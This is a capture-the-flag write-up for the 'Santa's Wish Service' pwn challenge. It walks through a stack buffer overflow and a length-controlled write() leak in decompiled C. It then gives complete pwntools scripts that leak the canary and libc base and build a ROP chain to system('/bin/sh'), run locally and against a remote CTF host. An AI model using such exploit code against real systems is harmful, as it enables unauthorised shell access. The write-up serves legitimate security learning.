 # 14 - Santa's Wish Service

## Description

Santa's elves attended a programming course. With their new skills they started implementing a service which can be used
by everyone to hand in their Christmas wishes. The elves don't have any experience in such tasks, so they are hoping
that nobody makes their heart bleed.

## Solution

For this challenge we are given a binary as well as a libc. It is clear that we will have to exploit the binary on a
server and get a shell. Let's do this in three steps: first I reverse the binary and find the vulnerability. Then, in a
second step, I exploit the binary locally and finally on the remote target.

### Finding the vuln

I decompiled the binary using ghidra. The interesting parts are the following:

```c
int ret;
char option_given;
ushort amount_given;
char wish_content [200];

init_buffering();
banner();

while( true ) {
  print(&options);
  ret = fscanf(stdin, "%hhu", &option_given);

  if (ret != 1 || option_given != 1) {
    break;
  }

  print(&amount);
  ret = fscanf(stdin, "%hu", &amount_given);

  if (ret != 1) {
    break;
  }

  print(&wish);
  read(0, wish_content, 512);
  print(&wish_given);
  write(1, wish_content, amount_given);
}

``` 

First of all we have a buffer overflow when reading into `wish_content` since we are reading 512 chars but only allocate
space for 200 chars. Furthermore we can leak content with `write(1, wish_content, amount_given)` since we control
`amount_given`.

We can assume that ASLR is enabled on the server. Checking the security of the binary, we can see the following:

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

This means we have to use ROP and take care of the stack canary. The plan is the following:

1. Leak the canary
2. Leak a libc address
3. Calculate the libc offset
4. Use ROP to jump to `system('/bin/sh')` while keeping the canary intact

### Local exploit

To take a look at the binary in action, I used pwndbg. I set a breakpoint before the `write()` and entered 199 `A`s. At
that point the stack looked like this:

``` 
02:0010│ rax rsi 0x7fffffffde00 ◂— 0x4141414141414141 ('AAAAAAAA')
... ↓            23 skipped
1a:00d0│         0x7fffffffdec0 ◂— 'AAAAAAA\n'
1b:00d8│         0x7fffffffdec8 ◂— 0x4105912ff54c6700
1c:00e0│ rbp     0x7fffffffded0 ◂— 0x0
1d:00e8│         0x7fffffffded8 —▸ 0x7ffff7de20b3 (__libc_start_main+243) ◂— mov    edi, ea
```

We can see the 199 `A`s followed by what looked to be the stack canary. Then we can see 8 bytes that are empty and
finally we have the `lic_start_main`. Now we just have to leak the stack content, grab the canary and the
`libc_start_main`. Once we have those we can use ROP to get a shell as follows:

```python
from pwn import *
import struct

context.arch='amd64'

e = ELF("./service")
libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')

io = e.process()

io.recvuntil(b"Exit")
io.recvuntil(b">")
io.sendline(b"1")
io.recvuntil(b">")
io.sendline(b"250")
io.recvuntil(b">")
io.sendline(199 * "A".encode("ascii"))
output = io.recvuntil(b">")

canary = output[245:253]
ret = output[261:269]

print('Canary: ' + canary.hex())
print('Previous return: ' + ret.hex())

offset = int.from_bytes(ret, byteorder="little") - libc.libc_start_main_return
libc.address = offset

rop = ROP(libc)
rop.raw(rop.find_gadget(['ret']).address)
rop.system(next(libc.search(b'/bin/sh')))
payload = flat(200 * "A", canary, 8 * "B", rop.chain())

io.sendline(b"1")
io.recvuntil(b">")
io.sendline(b"234")
io.recvuntil(b">")
io.sendline(payload)

io.interactive()
```

This worked locally on my machine and gave me a shell.

### Remote exploit

The above exploit didn't work remotely at first. After a while I remembered that it might be due to an unaligned stack
(I had this problem before with other challenges). To fix that problem I simply added a `ret` gadget and got a remote
shell. The complete exploit can be seen here:

```python
from pwn import *
import struct

context.arch='amd64'

e = ELF("./service")
libc = ELF('./libc.so.6')

io = remote('a9fba9e9-2eb8-4771-bb73-b6d094d4edb0.rdocker.vuln.land', 1337)

io.recvuntil(b"Exit")
io.recvuntil(b">")
io.sendline(b"1")
io.recvuntil(b">")
io.sendline(b"250")
io.recvuntil(b">")
io.sendline(199 * "A".encode("ascii"))
output = io.recvuntil(b">")

print(output.hex())

canary = output[245:253]
ret = output[261:269]

print('Canary: ' + canary.hex())
print('Previous return: ' + ret.hex())

offset = int.from_bytes(ret, byteorder="little") - libc.libc_start_main_return
libc.address = offset

rop = ROP(libc)
rop.raw(rop.find_gadget(['ret']).address)
rop.system(next(libc.search(b'/bin/sh')))
payload = flat(200 * "A", canary, 8 * "B", rop.chain())

io.sendline(b"1")
io.recvuntil(b">")
io.sendline(b"234")
io.recvuntil(b">")
io.sendline(payload)

io.interactive()
```

